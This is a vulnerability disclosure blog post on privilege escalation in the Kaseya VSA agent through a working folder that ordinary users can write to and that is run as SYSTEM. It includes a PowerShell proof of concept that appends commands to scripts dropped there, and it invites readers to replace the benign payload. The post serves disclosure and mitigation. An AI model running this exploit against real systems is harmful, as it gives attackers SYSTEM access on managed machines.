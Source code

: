 ```yaml
---
layout: post
category: publish
title: Kaseya privilege escalation
---
```


<h3>Introduction</h3>
<p>
So this is the first time I've written about a security issue.
I decided to write about this as the vendor was unresponsive and looking their previous CVEs it seems to be a
pattern. The other reason is that if any organisation is using this product, most of their machines are at risk. 

So I give you <a href="https://www.kaseya.com/products/vsa/">Kaseya VSA.</a>
</p>

<h3>Product</h3>
<h4>Windows 10. Agent version <= 9.5</h4>
<p>
Kaseya VSA provides a web application to manage deploy agents on an organisations systems.
Its a competitor to Microsoft system centre and has a tiny portion of the market when compared with similar products.
The installed package is made up of several tools and a controlling agent binary leveraging host capabilities such as PowerShell, WScript as well as a couple of executables like curl.
</p>
  
<h3>Vulnerability</h3>
<p>
This is not a new issue as such but more of the same in line with <a href="https://www.securityfocus.com/archive/1/541884/30/300/threaded">CVE-2017-12410</a> found by Filip Palian.
A a fix was put in place for the original CVE, however it was specific to binaries and not scripts.
The root cause for both issues is allowing a low privileged group excessive permissions to a folder used by a elevated process.
 
</p>

  <img src="/images/authenticated.png" />
  
<p>
The Kaseya agent runs as SYSTEM by default.
The agent also has a default working folder @ <code class="highlighter-rouge">C:\kworking\</code>.
It will pull scripts and binaries to this folder and execute them from disk from the controlling web application.
By default the <code class="highlighter-rouge">Authenticated Users</code> group has all rights to this folder.

Scripts are written to disk however they are not checked for integrity prior to execution.
So a folder can be monitored for script files being dropped and then append malicious code prior to execution.
</p>

<h3>Impact</h3>
<p>
Given that the VSA agent is used to manage assets, if the agent is found on a single machine within an organisation there is a good chance it has been deployed across the majority of the organisation. The vulnerability itself is reliant on code execution within the working folder and depends on scheduled tasks or ad-hoc script execution from the web interface, so the wait time can vary.

So this is case by case based on script usage via agents within the organisation.
</p>

<h3>Proof of concept</h3>
This PowerShell script will use a file monitor against the default working directory.
When a ps1 script drops from a scheduled task or run from the VSA web application it will then append the command "Write-Host 'injected content'" which will run as SYSTEM.

<pre>
  <code>
      $folder = 'c:\kworking' 
      $filter = '*.ps1'                          

      $filesystem = New-Object IO.FileSystemWatcher $folder, $filter -Property @{IncludeSubdirectories = $false;NotifyFilter =  [IO.NotifyFilters]'FileName, LastWrite'}

      Register-ObjectEvent $filesystem Created -SourceIdentifier FileCreated -Action { 
          $path = $Event.SourceEventArgs.FullPath 
          "`nWrite-Host 'injected content'" | Out-File -Append -FilePath $path -Encoding utf8 
          Unregister-Event FileCreated
      }
  </code>
</pre>

Change the Write-Host command to the code to be executed or update the script to target other script drops such as vb script.

<h3>Mitigation</h3>
<p>
All scripts should be signed and verified prior to execution eliminating the ability to append arbitrary commands. Additionally Kaseya should remove the excessive privileges on the working directory. 
Removing <code class="highlighter-rouge">Authenticated Users</code> permissions to write/append would be another step forward though I am unsure of the impact of the Kaysea product.
</p>

<h3>Timeline</h3>
<ul>
  <li>16-06-2019 :: Issue found</li>
  <li>18-06-2019 :: security@ emailed requesting steps to disclose</li>  
  <li>30-06-2019 :: CERT contacted due to non response of vendor from official email address</li>
  <li>31-06-2019 :: CERT still unable to contact vendor</li>
  <li>07-07-2019 :: CERT makes contact with vendor. Discover security@ address is not monitored by vendor</li>
  <li>20-08-2019 :: Vendor confirms receipt of details</li>
  <li>27-08-2019 :: Email sent indicating intention to disclose due to lack of response</li>
  <li>02-09-2019 :: No response. Findings published</li>
</ul>
